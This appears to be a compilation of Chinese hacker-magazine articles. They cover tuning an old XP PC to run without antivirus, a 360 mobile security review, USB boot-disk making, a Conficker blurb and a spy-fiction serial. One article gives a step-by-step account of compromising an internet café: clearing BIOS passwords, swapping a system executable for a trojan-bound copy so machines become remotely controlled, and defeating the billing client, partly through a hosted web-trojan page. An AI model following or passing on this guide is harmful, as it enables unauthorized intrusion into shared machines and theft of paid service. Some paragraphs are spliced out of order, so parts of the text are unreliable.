“裸奔”指的是不安装杀毒软件而上网浏览的行为，这在木马、病毒满网飞的现在无疑是十分危险的。如果你的机器配置较高，比如双核加 4G 内存，那么安装上杀软和防火墙是很英明的，安全且几乎不影响机器的运行速度。但是如果你驾驶的是一部 N（N>8）年前的“老爷车”，即使后来将内存升级到 1G，那么“裸奔”就显得十分有必要了。好处是机器的速度有了“飞一般”的感觉，因为它不用携带庞大的杀毒软件数据库时刻进行监控；况且我们在对好多黑客工具进行学习和实验的过程中经常会碰到杀软报警甚至是直接消灭的情况，正好不用那些碍手碍脚的卡巴、江民或瑞星什么的。

当然，裸奔也要讲究策略，不能光图速度而丢了安全，玩黑的最终自己成了“别人”的木马，可是最丢人的事。也就是说，如果你手头上所使用的机器太老且又想很安全地进行黑客技术演练的话，不妨试下我的一些建议，一定可以让你快乐地“裸奔”的。

先介绍下我的“老爷车”：诞生于公元 2000 年，时值 6000 多大洋，基本配置为：CPU 是奔四 1.7GHz，256MB 内存，40GB 硬盘加独立显卡。前年增加了一条 512M 的内存条，目前运行 XP，选择的关键是最经济的配置，但机器的运行真是可以用“气喘吁吁”来形容，尤其是刚开机的时候，让人等得心焦！我的做法如下：

## 1. 送神

既然想要提高运行效率，那必须要敢下包袱，轻装上阵，因此首先要考虑的就是将一些特别消耗系统资源的软件卸载掉，特别是杀毒软件和防火墙。因为它们靠自带的病毒库和各种安全规则时刻在监控着 XP 的系统内存，是资源消耗大户。另外，还有各种安全助手（比如瑞星卡卡、U 盘杀毒伴侣等）也要卸载掉，360 安全卫士先不忙卸载，待用；下载类工具不在多，只保留一个就行了，快车或是迅雷，其余的都卸载。

## 2. 请神

由于目前使用老爷机最主要的目的就是上上网、处理文字和娱乐等，因此必须保证有浏览器（IE 是集成的，不过我喜欢傲游）、腾讯 QQ、WinRAR 压缩/解压缩软件、微软的 Office 2003 办公组件、能通吃各种视频格式的暴风影音、听音乐的千千静听、抓图软件 SnagIt、Flash 播放器……输入法嘛，我只保留一个：搜狗五笔（还带拼音提示），很不错；其他的像虚拟光驱软件、看 PDF 电子书的 Foxit Reader Pro 等可酌情保留几个。

## 3. 设置好 XP 系统

右键单击“我的电脑”选择其中的“属性”，单击“高级”选项卡中的“性能”→“设置”，把“视觉效果”中的“调整为最佳性能”选中，如图 1。

把“淡入淡出或滑动菜单到视图”、“滑动打开组合框”之类的动态效果都取消掉，以牺牲一部分最佳外观显示性能为代价来提升系统工作效率。

接着再将“系统还原”选项卡中的“在所有驱动器上关闭系统还原”选中，因为硬盘上有 Ghost 备份，这个鸡肋功能根本用不上；还有就是将“自动更新”选项卡中的“关闭自动更新”选中，“远程”选项卡中的“允许从这台计算机发送远程协助邀请”选中，取消“允许用户远程连接到此计算机”，这是从安全的角度考虑的。

接着在桌面的空白处单击鼠标右键选择“属性”，在“桌面”选项卡中将桌面的背景取消，保持“无”的状态，因为越华丽的桌面越需要更多的系统资源；“屏幕保护程序”也设置为“无”；其他的默认即可。

## 4. 为 XP 做个大扫除

将系统的桌面清理一下，除了“我的电脑”“网上邻居”“回收站”和“我的文档”外，其他的文件（夹）一律剪切至非系统盘。平时使用频率较高的文件（夹）最好是放到“我的文档”中，这样可以通过一次双击操作就能快速找到，而且要将“我的文档”的路径从系统默认的系统盘中转至非系统盘（比如 D 盘），方法是在“我的文档”上右键单击鼠标并选择“属性”，然后在弹出的“我的文档属性”窗口的“目标文件夹”选项卡“目标文件夹位置”处单击下方的“移动”按钮，如图 2。再选择一个理想的位置即可。当然，浏览器的收藏夹最好也是移动一下，放到非系统盘。

运行超级兔子或是 Windows 优化大师进行系统优化工作，比如提高开关机的速度、关闭一些不太常用的系统服务等，还可以为鼠标的右键“新建”菜单做下减肥工作，如图 3，建议只保留“文本文档”“快捷方式”“文件夹”和“Microsoft Word 文档”“Microsoft Excel 工作表”等几个选项就足够了。

再就是运行 Regvac 之类的注册表清洁软件，将注册表中的无效链接、错误链接及安装与卸载软件等留下的垃圾信息都清理掉，如图 4。

还记得刚才说 360 安全卫士要使用么？在此需要用它的“修复系统漏洞”将 XP 系统的补丁都打齐，还要用它来“查杀流行木马”“清理恶评插件”“清理系统垃圾”和“清理使用痕迹”，如图 5。

做都做完后再将兔子、Regvac 和 360 都卸载掉（呵呵，听着有点像是“卸磨杀驴”的味道）。

再运行磁盘整理软件，推荐使用 Vopt XP 来取代 Windows选择前者的优点是其他的非系统盘文件（夹）都不受局限，可任意修改和下载写入，缺点就是这些分区有可能中毒（因为没有杀毒软件），比如前几年出现的能删除 Ghost 备份文件的“熊猫烧香”病毒，因此选择这种模式最好是将 Gho 文件刻录到光盘上做下备份。

选择后者的优点是，所有硬盘分区都处于影子系统的保护之下，我们可以放心大胆地“裸奔”而无任何后顾之忧；缺点是下载的文件需要其他的存储介质来作中转站，否则一重启就什么都没了。

好在现在的 U 盘容量大且价格低，因此我选择了“完全影子模式”，将网上下载的文件在重启前复制到大容量的 U 盘中，然后拿到别的安装有最新杀毒软件的机子上做完“安检”后再使用。

自带的“磁盘碎片整理程序”。Vopt 的整理速度比较快，而且效果不错，如图6，对碎片的整理工作能极大地提升系统的工作效率。整理完毕之后，记得把它也要卸载掉。

## 5、用影子系统软件保持 XP 百毒不侵

刚才在第一步中就将杀毒软件给卸载了，这要是在 Internet 中“裸奔”的话，恐怕一天得装三遍系统，因此必须安装影子系统，比如 Power Shadow，如图7。

安装非常简单，直接“下一步”式操作，最后按照提示重新启动 XP 系统后，需要做一下设置才行。此时有两种选择，如图8，一是“单一影子模式”（只保护系统盘）；另一种是“完全影子模式”（保护所有的硬盘分区）。

> 从本文抢先体验 360 手机安全卫士

360 手机卫士目前在内测阶段，因为广大用户的关注，消息不胫而走，也出现不少借此炒作或者别有用心的产品，目前最新版本为 v1.0.0 beta2，如图1。

360 安全卫士号称是全国最多人使用的安全软件，月活跃用户超过 2 亿，那么这次我们就来抢先体验下它的手机安全卫士。

从网站上下载对应的手机版本安全卫士文件，然后在手机中进行安装。这些步骤玩手机的都会，我就不浪费版面了。然后打开软件，可以看到的选项有：拦截记录、黑名单、常用号码、拦截规则、系统设置等，如图2。

首先我们进行简单的设置：

- 1. 点击“拦截规则”，如图3所示，可以按照你的喜好来设置。这是个很不错的功能，你可以不动声色地拒绝同学邀请、公司派对、女友骚扰，一般都用“返回忙音”。如果你够狠，也可以试试“返回空号”，这样别人拨打你的手机就会听到美丽动听的 MM 曰：“您所拨打的号码为空号！”这里我们也可以选择是否接受“陌生来电”或“陌生短信”等，如图4。

- 2. 点击“系统设置”，里面有个开机自动启动，我觉得有必要点上，其他的类似“删除键 C”激活程序什么的，就看你自己的喜好了。

这里的“桌面上方提示框配色”是指来电的时候出现一个提示框，有 3 种样式：“360 绿色（默认）”、“快乐橙”和“灰色”，如图5。

基本上就是这样了，我们来测试一下，首先把 10086 加入黑名单（谁叫中国移动收了咱这么多钱，就拿它开刀），然后随便发个短信给 10086，内容随便写，一般 1 分钟不到中国移动就会发消息给你（免费），如图6、图7。

可是这次怎么等就是等不来呢？哦，看到啦，仔细一瞧，桌面右上角多了个橙色的邮件图标，如图8。打开“360 手机安全卫士”→“拦截记录”，查看被拦截的短信，如图9。

基本功就是这些，还有一个“常用号码”列表，如图10，都是大家熟悉的了。

总体来说 360 手机安全卫士第一版做的已经相当不错，只是鼓捣手机这么多年，对软件的要求还是蛮高的，就提点建议和个人看法：结合“信安易卫士”，短信拦截最好再加个“关键字”拦截，就是别人发的消息里面有你设置好的关键字就会被拦截。其他的就不多说了，相信 360 的技术朋友们比我聪明许多。（特此鸣谢本人的 N78 手机参与了本次的测试，手机系统 S60v3）

信安易官网：http://www.msafe.com.cn

360 手机安全卫士：http://m.360.cn（只能手机登录）

## 万象 + 净网先锋 + 易游网吧系统 远控实现与免费上网

题图 风清源 @Neusoft

> 从本文了解基本的网吧免费上网方法

打工近一个月了，在市里的四星级网吧安家落户。由于身上的银子有限，网吧有两三百台机子，于是就动了“坏”心思，顺便测试一下它的安全状况！

经检测，系统设置很严密，重要的地方都被加密设限。其实解控其他很简单，用网吧幽灵很合适，点几下就搞定了。废话少说，我的目的是什么呢？1、种马；2、免费上网。

# 如何突破还原种马

谈到种马，在网吧最大的死敌就是还原卡，无论是硬件的还是软件的。知道密码不是件轻易的事情，又不能来硬的，BIOS 坏掉了后，你种马还有什么用呢？机子成了马圈后，网管不立马重装吗？！因此，我想到了 PE。这个方法还是屡试不爽的，正好我身上带着优盘，就选择了老毛桃的 PE 装了进去。重启，进 BIOS，我这里没有设置 BIOS 密码，直接进入。如果你在的网吧设置了，我建议你用一款小工具清空掉 BIOS 的设置就可以了。

FlashBios 是个很好用的一款工具，据说是现在唯一一款在系统里清除 BIOS 密码的工具。这个软件需要在 CMD 窗口里使用，如图1，参数就是 98/2000/xp/2003，如果你的系统是 2000，就输入命令：`flashbios 2000`。

清空掉 BIOS 密码后，在 BIOS 里要设置一下 FIRST BOOT（主引导盘），选择成 U 盘就是了。

当然，主板不同，BIOS 型号也不同，设置自然也会不同。

图1

# 远程控制遇到的障碍

- （1）我本想用自启动文件夹的功能，可是复制进去重启之后，里面的东西并没有运行。我很纳闷，以为被还原了，可后来检查时发现 PE 系统里有，可是在 XP 里却没有。算了，时间短，放弃这个方法！

- （2）看着电脑开机会启动什么？在“运行”里输入 `msconfig` 后回车，发现启动项不多，启动的进程有这几个：`explorer.exe`（系统桌面进程）、`clamn.exe`（万象收费端进程）、`internat.exe`（经过查看，我发现这是输入法的图标）等。

我先将木马与 `explorer.exe` 绑定，进入 PE 将原来的 `explorer.exe` 替换，可没想到正常启动时却加载桌面失败。我又换了 `clamn.exe`，同样收费端运行时有错误窗口出现。主要是木马没有正常上线。一直换用到 `internat.exe` 时完美地成功上线了，并没有任何提示，如图2。

图2

# 彻底免费上网

现在很多人采用的免费上网方法，是指在用卡进入系统后，再破解掉收费端，以此达到免费上网的目的。当地的网管给我说了一种方法，就是用卡进去后，破解掉收费端，然后在另外一台机子上登录刚才的卡，然后正常结账。

可是这样一来，你至少已经花了 5 毛钱，虽然不多，但毕竟不是完全免费。我考虑了很久，心想能不能在本机结账后再破解掉收费端。后来我就发现在电脑自动结账后，我打开的音乐还在唱，这说明网管没有设置在锁屏后关掉用户的应用程序。这是一个漏洞，我想可以用多桌面转换系统软件来帮助我们进行破解。

我先运行了多桌面转换系统，然后结账，按下 F11 后，新桌面果然出来了。接着就可以用破解软件进行破解了，我用了万象幽灵 2009。

再后来我一直想如何一分钱不花就进入系统的方法，嘿嘿（别说我可耻呀，谁让我穷人呢！），在一次刚开机时，我试着破解，按下快捷键 `Ctrl+Shift+Esc` 调出任务管理器，发现在几秒钟后才被锁屏，让你输入账号密码。我立即感到，这几秒钟会是破解入口。

怎么利用呢？就用多桌面转换系统 + 任务管理器的组合。插上优盘，将多桌面转换系统改名为 `e.exe`，主要是为了方便输入，节省时间！重启，刚启动时，我立马按出任务管理器，然后按快捷键 Alt+F，接着回车后出现如图3的界面。

在“运行”框里输入 `f:\e.exe`，然后回车却出错了！后来我知道，那是因为优盘还没有完全加载进系统。那好，进 PE 将 `e.exe` 保存进 C 盘。然后重启，做同样的工作，哈哈，成功了！如图4，然后再破解掉收费端就 OK 了。

另一种思路，我是借助了网马，就是在自己空间里的网页上挂马，利用网马自动下载运行的功能来实现多桌面切换系统的下载与运行。这样就不需要 U 盘做媒介了，而是在打开的输入框中输入你网马页面的 URL 就行了。这可是考验你打字速度的时候，因为就那么几秒钟的时间，而你要输入一个完整的网马地址，如图5，访问出错是因为……我本本还没连接上网，哈哈。

我去过很多网吧，基本上装的软件都一样，所以只要进一家网吧，我所用的那个马子就……哈哈。但是，不要让网管发现哦，否则后果自负！

最后声明，文章没有高深的技术含量，只是善于发现的结果。所以我祝愿每位用友都有一双善于发现的眼睛，也许会有更多的收获（由于笔者已远离家乡去上学了，所以部分网吧截图无法短时间获得，敬请谅解！）。

# 从本文您可以学到：

- 如何制作各类启动 U 盘

风靡推荐的系统 U 盘，随着上网本流行，似乎光盘要开始被 U 盘所取代了，至少是在安装和维护系统方面。去看本本，都附带有系统安装 U 盘。一问价格，汗了~~咱小黑不能被这点困难打倒，得发扬伟大的革命精神，自己 DIY 吧，集成自己喜欢的工具做一个有我们自己个性的系统维护 U 盘，以后帮人装电脑也不用夹一光盘包满街跑了。

很久没写文章了，套话不说，直入今天的菜鸟恶补正题——U 盘启动盘制作与量产。

今天为大家介绍的几种 U 盘启动盘格式是目前最常用的 ZIP、HDD、FDD 和 USB-CDROM，前两者我们可以很容易地通过操作相关软件来制作，至于 USB-CDROM，我们需要利用量产工具来对 U 盘进行重新分区和格式化。但首先声明，使用量产工具有一定风险，弄不好可能会报废一个 U 盘哦！下面开始详细为大家介绍这三种启动盘的制作过程，文中所用到的工具都会作为附件为大家打包在光盘中。

## 一、ZIP 启动盘制作

首先打开我们的万能 U 盘启动盘制作软件 FbinstTool，界面如图1，如果此时你已经插入了 U 盘，在“选择磁盘”那一栏就会有你的 U 盘信息。可以看出，我这里用的是 2G 的 U 盘。

接下来我们依次选择“启动设置”——“格式化”就会出现一个“格式化参数”设置对话框。

具体参数设置按照如图2勾选的就可以了，需要注意的是，跟随软件的还有一个 sou.fba 文件，由于文件较大，可能无法作为附件放给大家，大家可以在网上搜索其他 fba 文件，同样可以。下载后该文件必须与 FbinstTool 处于同一目录，不然在“存档文件”里就无法找到该文件。

一切设置都准备好了之后我们就可以开始格式化了，一定要记得备份 U 盘里的数据哦。

格式化大概需要半分钟左右，具体时间视 U 盘容量和电脑性能而定，完成后会弹出一个确定对话框，点击“确定”即可，如图3。

到这里，一个 ZIP 启动盘就做完了，但建议在格式化完毕之后依次到“启动设置”——“BPB 管理”——“复制 BPB 到 MBR”，进行 BPB 同步，对古董机很管用哦！

重启电脑设置成 U 盘启动，测试画面如图4、图5。

## 二、HDD 启动盘制作

HDD 启动盘的制作我这里用 USBOOT 1.7，打开后界面如图6。

其实大家在图中可以看到，该软件不单能做 HDD，ZIP、FDD 模式的也能做，操作也很简单。

在插入 U 盘之后，我们在该软件上就能看到相应信息，我这里显示的是 256 的 SD 卡，选中插入的 U 盘，然后单击窗口下方的“点此选择工作模式”来选择我们要做的启动盘模式。点击“开始”，出现提示如图7。单击“是”确定，软件开始格式化 U 盘。

格式化完毕后会提示你拔出 U 盘，然后要求你再次插入。当 U 盘被再次插入后 USBOOT 就开始往 U 盘里写入启动文件了。随后引导型 U 盘制作成功，如图8、图9。

到这里 HDD 引导盘就做好了，但是功能不多，只能实现最基本的 DOS 启动，所以这里还给大家介绍一款 PE 安装程序——深度 WINPE 专用安装程序，文件较大，大家可以在网上下载其 ISO 文件后解压运行其中的 Autorun.exe 开始安装，如图10。

启动安装程序，会运行一个 CMD 画面，如图11。

在这里我们选择 3，U 盘安装。再输入 U 盘所处盘符，我这里是“H”，如图12。

回车后，程序会打开 HP U 盘格式化工具，界面如图13。这里我们只需要勾上“创建一个 DOS 启动盘”，然后在下面输入框中选择 ISO 文件中解压的 SETUP 文件夹内的 DOS 文件夹，就可以点击“开始”按钮进行格式化了。格式化完毕后我们关闭该对话框，程序会询问你是否设置 PE 密码，这里我不用设置，所以直接按任意键继续下一步，如图14。

然后，制作程序会开始复制启动文件及工具到 U 盘，文件大概 235M，所以需要耐心地等待一会儿，安装完成之后会出现如图15的提示。

到这里又一个启动盘制作完成，很简单吧！

## 三、USB-CDROM 制作

关于 USB-CDROM，我们需要用到 ChipGenius（U 盘主控芯片查看器）和相应主控的量产工具了。但在文章开头就已经提到了，量产有一定的风险，需要自行承担后果哦，不过只要操作没问题，芯片识别正确，对应的量产工具也找得对，一般成功率还是很大的。下面我们就开始一步一步看如何把 U 盘量产成一个虚拟的 CDROM。

接入 U 盘后打开 ChipGenius，我这里用的 3.0 版，如图16。各牌子的 U 盘制造商和芯片型号可能是不同的，看实际情况了，我这里主控是 AU6335。得到型号后，我们就可以去寻找相应的量产工具了。注意，量产工具一定要选对相应主控的，不然会无法显示 U 盘信息，或者损坏 U 盘，这里给大家推荐个网站 www.liangchan.net，量产工具相当齐全哦。

下载后我们就可以运行我们的量产工具了，我这里对应的是 MPTOOL V1.50，使用方法都大同小异，界面如图17。

如果工具正确，软件就会检测出 U 盘信息，我这里是 1 盘，2G，点击“参数设置”进入量产参数设置，如图18。

设置界面大部分参数不需要更改，如图设置即可，需要提示的是“闪盘设置”里必须选择“自动播放光盘”，并选择你需要量产成 CDROM 的系统 ISO 文件。特别注意：这个 ISO 文件必须要拷贝到该量产工具目录里的 AUTORUN 目录下，再进行选择，比如我这里是“AUTORUN\XP3XPE.iso”。设置完成后，确定即可。程序会返回到图17的画面，在界面中点击“开始”，U 盘开始量产。在这里就要祝福大家成功了，我运气不错，一次成功。

量产完毕，我们把 U 盘重新接一下，计算机会发现 2 个磁盘设备哦，第一个就是我们量产出的 CDROM，剩余的空间则被分为另外一个盘，可以继续存放文件，到此我们以后就可以用 USB-CDROM 来启动系统了，很方便吧！如图19。

## 四、常用的 U 盘修复工具

对于经常使用 U 盘的人来说，可能经常出现 U 盘损坏的情况，比如 U 盘容量减少、无法拷贝文件、无法格式化等等问题，这里为大家推荐两款 U 盘修复工具：U 盘烧录修复工具 U3Por 和 U 盘格式化工具 Mformat。使用方法和软件作为附件留给大家，操作都非常简单，不妨把损坏的 U 盘拿出来试试，说不定你的爱 U 又回来了哦。

> 编辑点评：虽然现在最常见的是 HDD 和 ZIP，小编最喜欢的还是 USB-CDROM，也推荐大家在制作的时候选用 CDROM 的方式，至少在你带着到处跑的时候不用担心被病毒感染之类的一些问题，并且好的系统镜像和修复工具都不用自己集成，网上镜像文件满天飞，选一个自己喜欢的直接用，多方便。

XApache 最近比较受关注 Conficker 这个蠕虫。虽然很久以前就开始嚷嚷这个，但这个蠕虫到今天为止依然“潜伏”在世界各地的机器上，继上次“太阳神”安全之后，这次又在英国牛津大学掀起扬威了一回。

国内一位黑客研究分析后得出结论——“手法是多么的干净、利落和犀利！在这个蠕虫之后隐隐约约可以看到专业产品经理的身影。嗯，没错，病毒和黑客工具也需要优秀的产品经理，也是需要用户体验的。”

看到这里小编也想起以前听到的一句：“吉娃娃也是有尊严的，你怎么能给它穿女生的衣服？”

不管怎么说，谁都不希望自己的机器变成肉鸡，所以，这类“用户体验”还是不要有的好。衷心希望安全工程师们能找到消灭此蠕虫的方法。

# 真相有很多

“我说，明天我们早上出发去威尼斯，你不是一直想去吗？”苏英泽露出浅浅的笑，眯着眼等待苏景扔掉筷子欢呼着跳起来。

然而……

“我们去芬兰吧。”苏景把刚刚喷出的饭粒一粒粒捡回碗里，放下筷子一本正经地看向苏英泽。

“为什么？”苏英泽顿时愣住了，不祥的预感潮涌而来，死死地掐住他的脖子。

“因为我亲生哥哥在芬兰。”筷子跌落破碎，苏英泽看着眼前的苏景，笑容像碎成一块一块，然后变得让人认不出来。

恐慌袭上心头，堆在脸上，最后冻住他脸部的所有肌肉。苏景不再说什么，只是看着他，微笑着，陌生地。最后，苏英泽左手边口袋的震动打破沉默。他看了一眼苏景，无奈地伸手掏出一个她从没见过的黑色滑盖手机，手机嘈杂地传来一个男人的声音。苏英泽没有说话，只是听，眼睛一直看着苏景。结束通话的一瞬，他修长的睫毛缓缓落下，像是一阵深重的叹息。

“既然已经知道了，那现在就走吧，你应该知道自己的处境。”苏英泽一把拽过苏景向房间走去。

当一路狂飙到家的苏景看见正微笑着等在门口的苏英泽时，真的非常想冲上去抱住他大哭一顿，然后翘起兰花指数落那个何瑞的斑斑劣迹。不过考虑到真相更重要，苏景简单地招呼了一声便直奔书房。

然而两分钟后，苏景却以一副倒霉猫咬 Tom 的表情坐在饭桌边用手指极其郁闷地敲着桌子。

所有的语言攻势在苏英泽面前全部被四两拨千斤地轻松弹开，最后苏景咬着后槽牙愤愤地甩出一句“我告诉你还不压正！”，然后被彻底打败。苏英泽微笑着替苏景盛了一碗饭推到她面前：“的确，你这个‘邪’是压不了我的。”

然后，苏景开始数饭粒。一粒，两粒，三粒……

“好好吃饭。”

两粒，四粒，六粒……

“欠揍了？”

一口，两口，三口……

“明天，我们去威尼斯吧。”十分钟后，苏景成功地被哥哥这句没头没脑的话呛到了。苏英泽以为她没听明白，又重复了一遍。

目标暴露，立刻送往安全地带。

屋顶传来“轰隆，轰隆”的震动声，整个房子开始摇晃。苏景奋力一挣，甩开苏英泽的手，冰凉的液体顺势在他的手背上溅开水花。

“我从不知道自己的处境！爸爸妈妈莫名其妙地被杀害了，新闻却说是意外失火，全家死亡！十年没见的哥哥莫名其妙地冒出来把自己送回国，最后发现那根本不是自己的哥哥。而我的哥哥，真正的哥哥！远在芬兰！一切都那么莫名其妙！！！”苏景顿时像脱缰的疯马，拼命摇着头冲着苏英泽歇斯底里地吼起来，眼眶里的泪水濡得到处都是。

楼顶上下来了几个荷枪实弹的 FBI，他们朝苏英泽挥了挥手。苏英泽把苏景交给其中一个 FBI，“Chuck，把她带走，身份……”

# 黑小说

已经暴露了。”苏景看了眼 Chuck，突然安静下来，红着眼一言不发地跟着他上了楼顶。

直升机掀起的风吹打着苏景的裙摆，肆意地蹂躏她的头发，昏黄的月亮在一层浓厚不均的灰云中纠结着。

苏景直直地盯着驾驶员，选择无视身边的“哥哥”。

苏英浮僵硬地坐着，“小景，我……”

“Mr. Drew。”苏景生硬地打断了 Drew 许久才酝酿出来的话，他的眼神瞬间黯淡，“哦，你都知道了。”他自嘲地笑了笑，“什么时候？”

“已经没有必要讨论这个问题了，因为……”苏景终于把头转向了 Drew，认真地看着他，“因为我们已经无路可逃了。”这些话脱口的一瞬间，两边的 FBI 同时举起枪，死死抵住两人的脑袋，机舱内瞬间一片混乱。驾驶员的声音从前面飘了过来，“居然被你发现了，呵呵，不愧是苏博士的女儿。”

Drew 吃惊地看着自己的“同伴”，“你们到底是谁？！”

苏景微笑地看着驾驶员的背影，预感自己离真相越来越近。

“是要带我们去见 Boss 么？”

驾驶员没有反应，苏景冷笑一声，“你们就这样对待辛辛苦苦找到的客人？”

“怎么，怕我催眠你？”

驾驶员不再说话。苏景使劲咬着牙根，真想冲上去揍他一拳。苏英浮死死地握住她刚攥紧的拳头，把它按在座位上。

直升机的噪音成了机舱里唯一的声音。舱外，月亮还在云层里挣扎。黑色的山，黑色的城市，黑色的河流，无止尽的黑色向着一个未知的方向蔓延开，把恶魔的触角伸向未知的未来。

终于到了这一天，那么下一步……

“现在可以说了？”Drew 靠着屋子的一角，微微仰起头，看向天花板上那个 40 厘米见方的小天窗，一条腿自然地收起。苏景只是蜷缩在另一头的角落，把头深深地埋进膝盖，一言不发。

不知道是激动还是害怕，苏景觉得自己在发抖。像是过了几个世纪，她才开口，“你知道为什么会被怀疑吗？”

后来，苏景说了很多很多，都是 Drew 从来不知道的事。苏景想，也就这样的时侯能说了吧。

一切起源于某天逛街的时候，苏景发现有人在跟踪，于是她对那个人实施了催眠。那时终于知道，一直陪在自己身边的哥哥原来是 FBI，而真正的哥哥则远在芬兰，由另一批 FBI 以同样的方式保护着。爸爸是因为参加了政府的某种计划，要开发某个程序，才会被坏人杀害，而这个计划是连他们也不知道的秘密。

那时，Drew 突然明白那天说的那句“还有许多天使时刻保护我呢。”的真正含义了。

黑暗的屋子，阴绿的光一闪一闪地照着一张苍白的脸，他狭长的眼睛冷冷地注视着监视器，漆黑的瞳仁闪着黑绿色的光。

屏幕里，Drew 和苏景蜷在墙角，苏景时不时地把头侧向 Drew，不停地说着，说着……像一部无声的电影。简单的动作不紧不慢地进行着，看不见黑暗的手正伸向他们，慢慢收紧。

“其实我的身份早就暴露了，还记得酒店里那个警察局长的儿子吗？他已经找到我了。还有那个女人，她不是简单的杀人犯吧。”最后，苏景看着天窗自言自语道，“其实啊，要让别人找到你真的很简单。”

“你早就知道了为什么不告诉我？！”Drew 愤怒地握着苏景的肩膀，突然恍然大悟地停下来，瞪大眼睛看着她，“难道你？！”

后来苏景想，那时他的眼睛简直像《吸血鬼骑士》里的 Level E。

苏景耸了耸肩，摆出一副“就是这样”的表情，“我只是想挖出真相罢了。”

“宁可牺牲自己？”Drew 吃惊地看着眼前的苏景，发现自己根本不了解她，“好吧，那你怎么知道那些是假的 FBI 呢？”

“为什么他们到现在还没有动静呢？难道只是想把我们关在这里聊天吗？”苏景故意挪了挪身体，皱起眉看着那又高又小的天窗。

Drew 知道她不想说下去。那么，你想说的时候再告诉我吧。

窗外哗哗啦啦下起了雨，树叶哗哗地摇着，好像在躲闪雨珠的侵袭。何瑞看着窗外的树叶，窗户开着一条小缝，雨滴随着风侵进来，打在桌上的铅笔上。树叶终究躲不过雨的猛烈攻击，一个个败下阵来，低着脑袋默默承受着。

“3.1.14.9.13.E.4.1.E.1.7.5.12，你还欠我一份冰淇淋哦。”他小声重复着字幕的内容，一遍又一遍。随后许久，他终于抬起头，嘴角露出一丝浅浅的笑。

高大的中年男人站在他身后，一双犀利的眼睛冷冷地看向窗外那些败下阵来的树叶。何瑞转过身看向中年男人。

“爸爸。”

像是宣告胜利，雨很快停了。太阳迫不及待地出来舒展着身体，那些光线打在水珠上折射出七彩。阳光越来越强烈，地面的小水塘很快地收紧不见了。透过天窗打下来的光照在苏景的侧脸，她睡得很熟。

不一会儿，某块地板开始震动，Drew 推醒苏景，把她护在身后。在两人的注目礼中，地板“咔”地一声跳到一边。地板下面的洞里钻出了一个灰不溜秋的脑袋，那脑袋小声问道：“苏景？”话音未落，地下开始吵起来：“徐洛！快给我上去！不要堵在那里啦！”然后那脑袋听话地拔出修长的身躯，后面跟着爬出来一个瘦削的女孩，手里握着一瓶乐百氏。

“你们是？”苏景和 Drew 同时愣住了。

“嗯……网友吧……”说完，女孩给了他们一个甜甜的笑脸，然后拉过苏景的手，“走吧，何瑞可撑不了多久。”

何瑞？挖地道？没有更先进的方法了吗？这个屋子可是有监视器的！这两个白痴在搞什么？何瑞死哪儿去了？和他们单挑去了？

“你把他带走吧。”苏景努力按住跳动的太阳穴，冷静下来把 Drew 推给了他们，“我还要找出真相。”

“好啦好啦，这里没有什么真相，出去再说吧。”女孩完全没有理会她的意思，摆摆手，把喝完的乐百氏空瓶顺手扔在地上，一脚踢开，“走吧。”于是，灰脑袋抱起苏景，轻轻放下隧道。

隧道意外地很短，不一会儿苏景便见到了亮光，而就在他们从一口枯井里以贞子姐姐的架势爬出来的时候，随着一阵巨大的爆炸声，那所曾经关过他们的小房子瞬间化为灰烬。

苏景和 Drew 愣愣地看向火光的方向，一个少年向他们跑来。灰脑袋轻轻拍苏景和 Drew 的肩，指了指停在树丛边的面包车。女孩拉着苏景一路小跑跳上车。火光里的少年也喘着粗气追上来，跳上车的一瞬间，车子“嗖”地一下蹿了出去。然后，驾驶座旁的何瑞摸出四条毛巾扔给后座的屁股。

一切都那么顺理成章，却让人摸不着头脑。女孩从灰脑袋身上搜出一瓶乐百氏，开始大口大口地吮吸。

“何瑞！这到底是怎么回事？还有这个疯子是谁？”苏景摸过何瑞，指着像白痴一样喝乐百氏的女孩，“她在给乐百氏做广告吗？”

“她就是夏彩啊，很令人抓狂的一角儿啊。”何瑞无奈地摊开手，耸了耸肩。此时，苏景的余光里，那女孩笑颜如花地举起一只手向他们打招呼。

传说中的夏彩？

苏景和 Drew 显然不能接受这个现实，直接石化。何瑞抱怨起来：“20 分钟，这么短的时间，你随便给我几个催眠瓦斯就让我去搞定那些守卫和监视器，大姐，您还真是看得起我。您真确定我不会被他们打死或被炸死？”然后，夏彩的回答让他立刻加入了苏景一行的阵营。

她说：“我不确定啊，你牺牲的几率其实是很大的。”

后来很长的一段时间内，何瑞和苏景始终是抓狂的。不过苏景知道了那个随手扔在地上的乐百氏原来就是定时炸弹。遗憾的是头目跑掉了，何瑞追到监视室时早已人去楼空。而此时，车子上的夏彩始终拉着脸，保持沉思的状态。那个和她一起的男生，擦干净脸之后竟是个肥俗的尤物。他平常而温柔地看着夏彩，嘴角的那抹微笑点亮了整个车厢。

何瑞继续挖掘苏景留下来的那个莫名其妙的讯息，让他思考了好久：“万一真的解不出来，你真做了鬼可别来找我麻烦。”

“我没指望你救我，不是你捣乱，说不定我早就催眠了那个头目了。那纸条写的什么我都忘了。”苏景倔强地将头转向一边。

“喂，要不要我背给你听啊？4.2.15.10.14.F.5.2.F.2.8.6.13，你还欠我一份冰淇淋。”何瑞嚷着脸，头上飘着大朵大朵的乌云。

这时，夏彩撑着脸看着窗外幽幽地说了句：“CAT is in danger。发讯器的接收装置在冰淇淋里。”没反应过来的苏景还狠狠地点了下头，“就是嘛，你看人家夏彩听一遍就解出来了。”

直到苏景看见何瑞和 Drew 以一副见鬼的表情转过头来时，她才跟着蹙起眉，指着夏彩，“你怎么知道的？！”而何瑞则摆出“我没和她说过这件事”的表情来回应她。

“跟 1 位后就是十六进制和英文字母的简单转换而已。而且，我们三个人跟踪着发讯器追过来的，那么后面一句话的意思就是告诉何瑞，发讯器的接收装置在冰淇淋里。”说这些的时候，她依旧摆着一副百无聊赖的表情看向窗外。

“和我说说你破的案子吧。”回神的苏景加入崇拜者的行列。

然而，夏彩以一副“你还欠我十万块”的幽怨表情转头看了苏景两秒钟后，又幽幽地转了回去，吓了苏景一身冷汗。苏景只好向徐洛求助。突然，她感到侧面一阵灼热，余光里夏彩正用一种无比幽怨的眼神射向自己的手，这时她才发现自己的手不小心搭在了徐洛的手臂上。

在苏景乖乖地缩回手后，夏彩才恢复刚刚的表情继续看向窗外。徐洛笑着告诉苏景，因为他身上只带了一瓶乐百氏，她有点郁闷。然后他轻轻推了推夏彩，让她不要任性了，夏彩才乖乖坐好。

